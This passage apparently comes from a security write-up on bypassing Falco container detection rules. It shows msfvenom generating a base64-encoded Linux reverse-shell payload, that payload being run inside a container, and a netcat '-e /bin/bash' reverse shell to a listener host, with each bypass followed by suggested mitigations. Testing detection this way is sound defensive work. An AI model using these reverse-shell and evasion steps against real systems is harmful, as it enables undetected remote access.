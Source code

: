 Finally, to be even more original and avoid triggering any rules without using previous bypasses, we can use the msfvenom tool, which is a de-facto standard payload generator in offensive security community:
```
[Kali]
kali@kali:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f elf | base64
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAAB
AAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAwgAAAAAAAAAMAQAAAAAAAAAQ
AAAAAAAAailYmWoCX2oBXg8FSJdIuQIAAbusEQABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7
WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
-----
[Container]
root@3a03766368a0:/# echo "f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAwgAAAAAAAAAMAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdIuQIAAbusEQABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=" | base64 -d > /tmp/gshell.elf
root@3a03766368a0:/# chmod +x /tmp/gshell.elf 
root@3a03766368a0:/# /tmp/gshell.elf
-----
[Host]
$ sudo nc -nlvp 443
[sudo] password for tutorial: 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:46326.
hostname
3a03766368a0
-----
[Falco]
SILENCE
``` 
<ins>Rules bypassed:</ins> **Redirect STDOUT/STDIN to Network Connection in Container**.

<ins>Suggested mitigations:</ins> Include dup2 and dup3 system calls; create separate rule to detect msfvenom-generated payloads; create separate rule to detect mkfifo and mknod coupled with the usage of netcat.

### Bypass rules based on command arguments manipulation

Another standard way to initiate a reverse shell is through the usage of the netcat utility with executable parameters:
```
[Container]
$ docker run -it sshayb/fuber:latest bash
root@7917d5e18fd8:/tmp# nc 172.17.0.1 443 -e /bin/bash
-----
[Host]
[tutorial@osboxes ~]$ sudo nc -nlvp 443
[sudo] password for tutorial: 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:55110.
hostname
7917d5e18fd8
-----
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS